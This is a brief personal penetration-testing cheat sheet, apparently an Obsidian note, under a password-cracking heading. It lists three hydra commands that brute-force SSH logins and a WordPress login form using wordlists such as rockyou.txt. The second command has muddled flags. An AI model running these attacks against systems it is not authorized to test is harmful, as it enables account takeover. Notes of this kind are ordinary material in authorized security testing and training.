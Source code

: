 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#password-cracking
- hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22

- hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22

- hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
